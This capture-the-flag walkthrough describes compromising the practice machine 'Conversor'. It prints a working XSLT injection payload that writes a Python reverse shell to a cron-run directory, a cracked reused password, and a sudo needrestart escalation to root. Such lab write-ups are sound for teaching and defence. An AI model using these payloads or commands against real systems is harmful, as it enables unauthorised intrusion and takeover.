







# Walkthrough 


## Information Gathering: 

Target ip attempts to resolve to `conversor.htb`

After updating the `/etc/hosts` file a login page is displayed: 




### Nmap Scans: 

All Port Scan:
```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```


`-sC -sV` scan: 
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 01:74:26:39:47:bc:6a:e2:cb:12:8b:71:84:9c:f8:5a (ECDSA)
|_  256 3a:16:90:dc:74:d8:e3:c4:51:36:e2:08:06:26:17:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.52
| http-title: Login
|_Requested resource was /login
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


### Directory Enumeration: 

`gobuster dir -u http://conversor.htb -w /usr/share/wordlists/dirb/common.txt`

```
about                (Status: 200) [Size: 2842]
javascript           (Status: 301) [Size: 319] [--> http://conversor.htb/javascript/]
login                (Status: 200) [Size: 722]
logout               (Status: 302) [Size: 199] [--> /login]
register             (Status: 200) [Size: 726]
server-status        (Status: 403) [Size: 278]
Progress: 4613 / 4613 (100.00%)
```


#### /about page: 


##### Source Code: 

The source code was downloaded to the attacking machine and extracted with: 

```
tar -xf source_code.tar.gz
```

It contains the following: 




### /register: 

An account was then made on the application: 




## Exploitation: 

### XSLT Injection

XSLT Injection (XSLTi) is a server-side vulnerability that occurs when a web application processes untrusted user input as part of an `XSLT (Extensible Stylesheet Language Transformations)` stylesheet. Because XSLT is a powerful language used to transform XML documents, an attacker can inject malicious XSLT code to manipulate the transformation engine. Depending on the XSLT processor and its configuration, this may allow unauthorized actions such as reading local files, making server-side network requests (SSRF), disclosing sensitive information, or even achieving remote code execution.

The site provides a template to be used which we can edit to exploit the service.

Research online provided a GitHub repo with an exploit PoC to use: https://github.com/ex-cal1bur/XSLT-Injection_reverse-shell

```
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
        xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
    xmlns:ptswarm="http://exslt.org/common"
    extension-element-prefixes="ptswarm"
    version="1.0">
<xsl:template match="/">
  <ptswarm:document href="/var/www/conversor.htb/scripts/test2.py" method="text">
import os

os.system(
    "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.XX.XX\",XXXX));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"])'"
)
  </ptswarm:document>
</xsl:template>
</xsl:stylesheet>
```

Breaking the template down: 

First, the XML Declaration:

```
<?xml version="1.0" encoding="UTF-8"?>
```

This is the standard XML header. 

XSLT Stylesheet: 

```
<xsl:stylesheet 
    xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
    xmlns:ptswarm="http://exslt.org/common" 
    extension-element-prefixes="ptswarm" 
    version="1.0">
```

This declares an XSLT 1.0 Stylesheet.

It creates a custom namespace called `ptswarm`. 

The `extension-element-prefixes="ptswarm"` tells the XSLT processor that elements in this namespace are **extension elements**, meaning they are implemented by the XSLT processor or application rather than being standard XSLT. 

This is important, because there is an Extension Element in the malicious code: 

```
<ptswarm:document 
    href="/var/www/conversor.htb/scripts/test2.py" 
    method="text">
```

This resembles the EXSLT `exsl:document` extension, and it's purpose is to write the output of a transformation to a file instead of returning it to the client. 

This means it will attempt to create `/var/www/conversor.htb/scripts/test2.py` on the server. 

This is important and is what allows the malicious code to be executed. The source code from the target has a file called `install.md` which contains: 

```
If you want to run Python scripts (for example, our server deletes all files older than 60 minutes to avoid system overload), you can add the following line to your /etc/crontab.

"""
* * * * * www-data for f in /var/www/conversor.htb/scripts/*.py; do python3 "$f"; done
"""
```

When the file is uploaded via the website and the link it generates is clicked, the python reverse shell is written into the `/var/www/conversor.htb/scripts` directory and will be executed as `www-data` via cron:



An md5 hash for `fismathack` user was found in the `users.db` file:



Crackstation was used to crack the password:

```
Keepmesafeandwarm
```

This is the password for fismathack to log into the Conversor application, but the credentials were reused and grant ssh access to the target host:




---

## Privilege Escalation: 

#### sudo permissions: 
```
fismathack@conversor:~$ sudo -l
Matching Defaults entries for fismathack on conversor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User fismathack may run the following commands on conversor:
    (ALL : ALL) NOPASSWD: /usr/sbin/needrestart
```

GTFOBins has an answer to this: 

Create a `.conf` file that contains the following: 

```
exec "/bin/sh";
```

Then 'restart' it with `needrestart`:

```
sudo /usr/sbin/needrestart -c /home/fismathack/root.conf
```





# Summary: 

This assessment demonstrated a complete compromise of the Conversor host through the exploitation of multiple security weaknesses. Initial reconnaissance revealed the web application, whilst further enumeration and source code analysis uncovered an XSLT Injection vulnerability within the XML conversion functionality. By supplying a malicious XSLT stylesheet, it was possible to abuse the server-side transformation engine to write a Python script to a directory monitored by a scheduled cron job. Once executed, the script provided a shell as the `www-data` user, establishing the initial foothold on the target.

Following initial access, the application's SQLite database was examined, revealing MD5 password hashes for registered users. One of these hashes was successfully cracked, and the recovered credentials were found to have been reused for the system account `fismathack`, allowing SSH access to the host. Enumeration of the compromised account identified a misconfigured sudo rule permitting execution of the `needrestart` utility as root without authentication. This configuration was abused to execute commands with elevated privileges, resulting in full root access and complete compromise of the system.

Overall, the attack chain highlighted several common but impactful security issues, including exposed application source code, insecure processing of user-controlled XSLT stylesheets, weak password hashing, credential reuse, and overly permissive sudo permissions. While each weakness alone presented a security concern, their combination enabled a straightforward path from unauthenticated web access to full administrative control of the target.